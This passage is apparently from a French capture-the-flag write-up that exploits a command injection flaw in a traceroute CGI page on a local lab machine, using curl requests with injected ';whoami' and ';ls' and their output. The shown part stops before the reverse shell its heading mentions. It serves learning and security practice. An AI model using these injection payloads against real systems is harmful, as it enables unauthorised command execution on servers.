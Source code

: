 ## Injection de commandes sur trace.cgi avec curl/Burp et dépôt de reverse shell

L'indice redirige vers une page nommée ```traceroute``` qui, avec son champ ```ip```,
laisse présager une [injection de commandes](https://owasp.org/www-community/attacks/Command_Injection).

```console
root@blinils:~# curl http://192.168.56.101/cgi-bin/lawrence
<html><head><title>Traceroute
</title></head>
<b><--flag You can't play god without being acquainted with the devil.--></b>
<br>Enter</br>
<form action=/cgi-bin/trace.cgi
	  method="GET">
<textarea name="ip" cols=40 rows=4>
</textarea>
<input type="submit" value="Trace">
</form>
```

Le bouton est inopérant car la page ```trace.cgi``` est située dans ```/cgi-bin/lawrence/trace.cgi``` et non ```/cgi-bin/trace.cgi```.

```console
root@blinils:~# curl http://192.168.56.101/cgi-bin/trace.cgi?ip=127.0.0.1
--snip--
<p>The requested URL /cgi-bin/trace.cgi was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.56.101 Port 80</address>
--snip--

root@blinils:~# curl http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=127.0.0.1
<html><head><title>Traceroute
--snip--
<pre>
traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.013 ms  0.003 ms  0.003 ms
</pre>
--snip--
```

Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, séparées par exemple par un point-virgule. L'injection de commandes est confirmée, voici les données qui ont pu être exfiltrées après quelques essais.

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bwhoami 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #whoami
<pre>www-data</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #ls
<pre>HINTexample.shlawrence</pre>
```
